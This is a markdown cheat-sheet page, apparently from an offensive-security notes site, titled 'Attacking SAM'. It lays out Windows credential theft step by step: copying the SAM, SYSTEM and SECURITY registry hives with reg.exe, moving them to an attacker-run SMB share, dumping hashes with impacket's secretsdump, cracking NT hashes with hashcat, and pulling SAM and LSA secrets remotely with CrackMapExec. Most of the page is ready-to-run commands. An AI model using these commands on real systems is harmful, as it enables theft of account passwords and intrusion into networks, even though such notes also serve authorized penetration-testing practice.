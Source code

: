 ```yaml
---
title: Attacking SAM
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
---
```

# Attacking SAM

[See Windows credentials storage](windows-credentials-storage.md).

## Dumping SAM Locally

### 1. Copying SAM Registry Hives

There are three registry hives that we can copy if we have local admin access on the target; each will have a specific purpose when we get to dumping and cracking the hashes. 

| Registry Hive   | Description                                                                                                                                                |
| --------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `hklm\sam`      | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| `hklm\system`   | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.                              |
| `hklm\security` | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.                                        |

Launching CMD as an admin will allow us to run reg.exe to save copies of the registry hives.

```cmd-session
reg.exe save hklm\sam C:\sam.save

reg.exe save hklm\system C:\system.save

reg.exe save hklm\security C:\security.save
```

Transfer the registry hives to our attacker machine, for instance, with [smbserver.py from impacket](smbserver.md).

```bash
# From the attacker machine (our kali) all we must do to create the share is run smbserver.py -smb2support using python, give the share a name (CompData) and specify the direct
#########################################
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

# From the victim's machine (windows)
#########################################
move sam.save \\$ipAttacker\CompData
move system.save \\$ipAttacker\CompData
move security.save \\$ipAttacker\CompData
```

### 2. Dumping Hashes with Impacket's secretsdump.py

```bash
locate secretsdump 
```

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

Secretsdump dumps the local SAM hashes and would've 
also dumped the cached domain logon information if the target was domain-joined and had cached credentials present in hklm\security. 

The first step secretsdump executes is targeting the system bootkey before proceeding to dump the LOCAL SAM hashes. It cannot dump those hashes without the boot key because that boot key is used to encrypt & decrypt the SAM database.

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
(uid:rid:lmhash:nthash)
```

Most modern Windows operating systems store the password as an NT hash. Operating systems older than Windows Vista & Windows Server 2008 store passwords as an LM hash, so we may only benefit from cracking those if our target is an older Windows OS. Knowing this, we can copy the NT hashes associated with each user account into a text file and start cracking passwords.


### 3. Cracking Hashes with Hashcat

[See hashcat](hashcat.md):

```bash
# Adding nthashes to a .txt File
# Copy paste them in hashestocrack.txt

# Hashcat them
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
# -m 1000: select module for NT hashes
```


## Dumping SAM Remotely

#### With CrackMapExec

With access to credentials with local admin privileges, it is also possible for us to target LSA Secrets over the network. 

[Cheat sheet of CrackMapExec](crackmapexec.md).

```bash
crackmapexec smb $ip --local-auth -u <username> -p <password> --sam

crackmapexec smb $ip --local-auth -u <username> -p <password> --lsa
```
